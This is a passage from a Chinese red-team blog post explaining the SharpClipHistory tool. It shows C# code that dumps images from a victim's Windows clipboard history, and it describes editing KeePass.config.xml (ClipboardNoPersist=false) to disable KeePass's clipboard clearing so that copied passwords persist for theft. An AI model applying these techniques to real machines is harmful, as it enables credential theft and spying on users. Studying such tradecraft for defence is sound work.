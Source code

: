 ![image-20240621105430384](E:\每日一文\md\2024\红队\内网小技巧\公众号\内网安全工具揭秘（一）：剪贴板历史监控.assets\image-20240621105430384.png)

下载受害者主机的图片后，查看图片：发现受害者正在查看**慧安天下公众号** leegl 师傅写的韭菜厂的学习日记，看到开心处甚至截了个图。

![image-20240621105259208](E:\每日一文\md\2024\红队\内网小技巧\公众号\内网安全工具揭秘（一）：剪贴板历史监控.assets\image-20240621105259208.png)

##### 关键源码：

```
  首先定义一个空字符串clip_contents用于存储剪贴板内容。然后获取剪贴板历史记录异步操作，并等待其完成，获取历史记录列表HistoryList。然后如下：
  
  var contents = HistoryList[i].Content.GetBitmapAsync().GetAwaiter().GetResult();
                                var bitmapStream = contents.OpenReadAsync().GetAwaiter().GetResult();
                                byte[] buffer = new byte[bitmapStream.Size];
                                bitmapStream.ReadAsync(buffer.AsBuffer(), (uint)bitmapStream.Size, Windows.Storage.Streams.InputStreamOptions.None).GetAwaiter().GetResult();
                                string path = String.Format("{0}\\AppData\\Local\\Packages\\{1}.bmp", Environment.GetEnvironmentVariable("USERPROFILE"), timestamp.ToFileTime());
                                System.IO.File.WriteAllBytes(path, buffer);
                                clip_contents += String.Format("[+] SharpClipHistory - Image found and saved in {0}.\n", path);
                            }
```

#### 功能点4：--keepassBypass

KeePass是一个免费和开源的密码管理器，主要用于 Windows 。

##### 实现原理：

keepass在默认情况下 ，自带剪贴板清除功能。如果我们没及时导出剪贴板历史之后就看不见了。所以修改keepass配置文件（KeePass.config.xml）让其关闭剪贴板清除功能。

停止KeePass进程(如果它正在运行)并修改配置文件：KeePass.config.xml。下次启动KeePass时，里面的密码将保存在剪贴板历史记录中，不再进行清除。

```
配置文件KeePass.config.xml添加：
<ClipboardNoPersist>false</ClipboardNoPersist>
```

![image-20240621122841821](E:\每日一文\md\2024\红队\内网小技巧\公众号\内网安全工具揭秘（一）：剪贴板历史监控.assets\image-20240621122841821.png)



```
缺陷：如果keepass没位于默认路径改不了这个值，需要自定义路径进行修改。
keepass默认路径：%USERPROFILE% \\AppData\\Roaming\\KeePass\\KeePass.config.xml
```



##### 修改配置文件前后实验对比-修改前：

1：复制密码

![image-20240621123733249](E:\每日一文\md\2024\红队\内网小技巧\公众号\内网安全工具揭秘（一）：剪贴板历史监控.assets\image-20240621123733249.png)

2：对keepass的账号密码进行复制，只能看见复制的账号，无法看见复制的密码，已经在剪贴板历史中删除了。
